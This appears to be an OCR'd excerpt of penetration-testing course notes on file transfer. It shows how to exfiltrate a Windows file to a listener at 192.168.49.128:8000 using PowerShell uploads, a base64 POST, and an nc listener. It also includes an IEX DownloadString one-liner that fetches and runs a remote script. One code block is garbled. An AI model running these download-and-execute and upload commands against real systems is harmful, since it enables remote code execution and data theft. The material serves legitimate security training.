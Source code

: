 **Decode Base64 String in Linux**
```bash
$ echo = | base64 -d > hosts

$ md5sum hosts
```

## PowerShell Web Uploads
PowerShell doesn't have a built-in function for upload operations, but we can use Invoke-WebRequest or Invoke-RestMethod to build our upload function. We'll also need a web server that accepts uploads, which is not a default option in most common webserver utilities.

For our web server, we can use uploadserver, an extended module of the Python HTTP.server module, which includes a file upload page. 

**Installing a Configured WebServer with Upload**
```bash
$ pip3 install uploadserver
```

```bash
$ python3 -m uploadserver
```

Now we can use a PowerShell script [PSUpload.ps1](https://github.com/juliourena/plaintext/blob/master/Powershell/PSUpload.ps1) which uses Invoke-RestMethod to perform the upload operations. The script accepts two parameters -File, which we use to specify the file path, and -Uri, the server URL where we'll upload our file. Let's attempt to upload the host file from our Windows host.

**PowerShell Script to Upload a File to Python Upload Server**
```bash
PS > IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')

PS > Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

## PowerShell Base64 Web Upload
```bash
PS > $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))

PS > Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

```bash
$ nc -lvnp 8000

$ echo <base64> | base64 -d -w 0 > hosts
```

## SMB Uploads
### WebDav
**Installing WebDav Python modules**
```bash
$ sudo pip3 install wsgidav cheroot
```
